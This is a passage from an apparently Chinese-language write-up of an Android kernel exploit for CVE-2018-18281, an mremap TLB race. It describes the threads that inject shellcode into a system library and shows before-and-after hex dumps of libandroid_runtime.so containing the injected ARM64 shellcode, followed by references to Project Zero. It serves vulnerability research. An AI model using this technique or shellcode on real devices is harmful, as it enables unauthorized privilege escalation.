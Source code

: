 read_worker 线程绑定到 c4, 用于监控目标内存, 一旦发现 race 成功触发, 则注入 shellcode 到目标内存

segv_handler 函数是段错误处理函数, 这里会再一次检测 shellcode 是否已经成功注入到目标文件, 如果是, 则通知 watchdog 停止重启 exp

执行 exploit 之前, libandroid_runtime.so 如下

```
adb pull /system/lib64/libandroid_runtime.so

root@jiayy:CVE-2018-18281# xxd -s 0x157000 -l 100 libandroid_runtime.so 
00157000: 0871 0091 5f00 08eb c000 0054 e087 41a9  .q.._......T..A.
00157010: e303 1f32 0800 40f9 0801 43f9 0001 3fd6  ...2..@...C...?.
00157020: 2817 40f9 a983 5af8 1f01 09eb e110 0054  (.@...Z........T
00157030: ff03 1191 fd7b 45a9 f44f 44a9 f657 43a9  .....`{`E..OD..WC.
00157040: f85f 42a9 fa67 41a9 fc6f c6a8 c003 5fd6  ._B..gA..o...._.
00157050: f801 00b0 d901 00b0 ba01 00f0 7b02 00f0  ............`{`...
00157060: 9c01 0090
```

执行 exploit 之后, libandroid_runtime.so 如下

```
adb pull /system/lib64/libandroid_runtime.so

root@jiayy:CVE-2018-18281# xxd -s 0x157000 -l 100 libandroid_runtime.so 
00157000: 0000 20d4 0000 20d4 600c 8092 0100 0090  .. ... .`.......
00157010: 2120 0191 0200 80d2 0807 80d2 0100 00d4  ! ..............
00157020: ff03 02d1 e103 0091 0210 80d2 e807 80d2  ................
00157030: 0100 00d4 e103 00aa e003 0091 2814 80d2  ............(...
00157040: 0100 00d4 0000 0014 2f70 726f 632f 7365  ......../proc/se
00157050: 6c66 2f61 7474 722f 6375 7272 656e 7400  lf/attr/current.
00157060: eaff ff17                                ....
```



## 引用
- [mremap TLB flush too late with concurrent ftruncate](https://bugs.chromium.org/p/project-zero/issues/detail?id=1695)
- [Taking a page from the kernel’s book: A TLB issue in mremap](https://googleprojectzero.blogspot.com/2019/01/taking-page-from-kernels-book-tlb-issue.html)
- [Swapping and the Page Cache](http://140.120.7.21/LinuxRef/mmLinux/VmOutline/pagecache.html)
- [patch 讨论](https://lkml.org/lkml/2018/11/2/423)